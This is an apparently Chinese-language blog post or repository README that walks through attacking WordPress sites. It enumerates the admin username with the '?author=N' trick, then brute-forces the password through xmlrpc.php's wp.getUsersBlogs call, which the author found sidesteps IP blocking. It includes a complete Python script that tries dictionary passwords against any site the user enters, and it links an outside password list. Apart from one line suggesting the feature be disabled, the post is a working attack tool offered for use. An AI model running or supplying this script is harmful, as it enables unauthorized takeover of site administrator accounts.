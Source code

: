 首先要说一下，一个正常点的网站，你用暴力破解登录的话，都是几乎无法实现的，举个例子。
### 举个暴力破解QQ的例子：
	
> - 1.你暴力破解QQ密码，输入错误几次之后验证码也出来了。
> - 2.验证码的问题比较好搞，找个识图的代码，识别图片中的二维码，即可。继续破解。
> - 3.是的 二维码可以搞定，但是你输入错误次数超过30次之后，该账号24小时内再提交密码都无效了。

### 举个我自己亲测暴力破解wordpress站点管理员密码的例子：
我穷举wordpress 的账户密码，post到xxx.com/wp-admin.php上，结果：没几下我就发现网站打不开了。然后，用同事们的机器，也是打不开，我以为网站挂了，结果不是，我发现用3G网可以打开。看样wordpress直接屏蔽了我们的ip段，一个小时后又可以访问了。 所以我放弃了，对wp-admin.php的破解。

只能另辟蹊径。

----------
## 1.wordpress自带的 **author漏洞**。

wooyun曾经爆出的WordPress的一个bug，就是再主网址尾部追加/?author=index之后可以爆出user表中的id==index的账户名。
#  
比如： **http://xxx.com/?author?=1** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>


    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>admin | 此处隐藏网站名</title>
	<!--  重点在这里 -->
``` 

比如： **http://xxx.com/?author?=2** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta name="generator" content="WordPress 3.8.3" />
<meta name="robots" content="noodp,noydir" />

    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">


    <title>Nothing found for  ?author=2</title>
    <!--  重点在这里 -->
```
# 
ok，此处可以看出该站只有一个管理员 用户名是**admin**。
那么好了，我们暴力破解本来还需要猜用户名的，现在用户名不用猜了，只要猜密码，我们就省了很多事。

# 
## 2.wordpress自带的 **XMLRPC漏洞**。

wordpress官网对这个功能进行了解释：  [点击跳转到wordpress官网](http://codex.wordpress.org/XML-RPC_wp#wp.getUsersBlogs)
	
如下是我摘抄的一段：
# 
wp.getUsersBlogs

	检索用户的博客。
参数
	
	用户名的字符串
	字符串密码
返回值
	> - 数组
		 > - +    结构
	 - 布尔型 isAdmin
	 - 字符串 url
	 - 文章的 blogid 的字符串
	 - 字符串 blogName
	 - 字符串 xmlrpc

wp.getTags

	得到所有标记的列表。

...
...
...
# 
我就不在往下写了，下面的也是调用这个接口传递用户名，密码，传递其他参数用于获得一些数据的一些表，比如文章列表之类的。

从wordpress官网看其他的一些功能，可以看出这个xmlrpc应该是开放给客户端使用的。



# 
那么我们在wordpress主站地址后追加：**/xmlrpc.php**即可得到如下截图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a000669)

**XML-RPC server accepts POST requests only**.
是告诉我们需要用post方式提交。

从这个文件名xmlrpc的命名来看，这里应该是提交xml格式的才对。
我们来试下模拟post提交，来验证我们的猜想：
# 
上图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a00066b)

这里报了一个错误，说转换出错，很显然post提交不了。跟wordpress官网说的一样，这个接口需要提交xml格式的。

格式 的例子如下：
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
   <param><value>username</value></param>
   <param><value>password</value></param>
  </params>
</methodCall>
```
我试着在chrome里提交一下：
![](https://leanote.com/api/file/getImage?fileId=563cdfc138f41125df00074f)
这个接口已经走通了，为了测试这个接口如果出错不会被服务器拉黑ip，我刷新了20次，确定这个接口可用。终于放心了唉。

下面就是写个python程序，进行循环post xml进行验证了。


``` python

#  佛祖保留代码无bug 
'''
漏洞详情请查看：http://www.freebuf.com/articles/web/38861.html
'''
import urllib2
import re

def ReadMe():
    print """说明：
    1.在本文件同目录下新建usernames.txt、passwords.txt分别存入用户名、密码字典
    2.按提示输入WordPress站点(例如:www.freebuf.com)
    """

def GetUrl():
    urlinput=raw_input("请输入wordpress站点:")
    requrl="http://"+re.match(r"(http://)?(.*)",urlinput).expand('\g<2>')+"/xmlrpc.php"
    print "尝试利用:"+requrl
    return requrl
   
def Aviable(requrl):
    
    try:
        result = urllib2.urlopen(url=requrl).read()
    except urllib2.URLError:
        print "抱歉，此站点漏洞不可用"
        return False
    else :
        if result == "XML-RPC server accepts POST requests only.":
            print "\n该站点存在此漏洞,尝试破解中:"
            return True
        else :
            print "抱歉，此站点漏洞不可用"
            print "网页返回：\n    "+result
            return False
    
def Exploit():
    requrl=GetUrl()
    if Aviable(requrl) :
    #usernames.txt 文件中其实只有一个用户名，因为我们通过author漏洞获取到了管理的用户名。
        f_username=open("usernames.txt","r")
        f_password=open("passwords.txt","r")
        num=0
        Flag=0
        for name in f_username:
            if Flag == 1:
                break
            for key in f_password:
                if num % 10 == 0:
                    print "已尝试"+str(num)+"个"
                if len(key)<8:
                    continue #wordpress管理员密码长度最短是8  所以这里小于8的跳过
                reqdata='<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs\
                        </methodName><params><param><value>'+ name + \
                        '</value></param><param><value>'+ key  +\
                        '</value></param></params></methodCall>'
                req = urllib2.Request(url=requrl,data=reqdata)
                result = urllib2.urlopen(req).read()
                num=num+1
                if "isAdmin" in result :
                    print "Got it !"
                    print "username :"+name+"password :"+key
                    Flag = 1
                    break
                    
                elif "faultString" and "403" in result :
                    continue 
                    
                else :
                    print "Unknown error"
        print "抱歉，在此字典中并未找到正确的密码"
        
if __name__ == '__main__' :
    ReadMe()
    Exploit()

```

# 
执行效果如下：

![](https://leanote.com/api/file/getImage?fileId=563cd4d638f411249a000681)



# 
wordpress不知道现在已经到了什么版本了，但是目前，这个漏洞还是存在的，避免这个漏洞方式很简单，关闭这个功能即可。
# 
PS：
	 补充点：只要xmlrpc这个漏洞在，暴力破解就是一定能成功，只是时间问题。
	 有些人觉得自己的字典不够全，我这里共享一个别人的密码集合：
[点击跳转](http://www.xdowns.com/soft/8/114/2012/Soft_88561.html)



这里有2个目录一个 xmlrpc目录，就是说wordpress的xmlrpc漏洞的，另外一个适用于其他网站的post请求漏洞，不单单适用于wordpress。



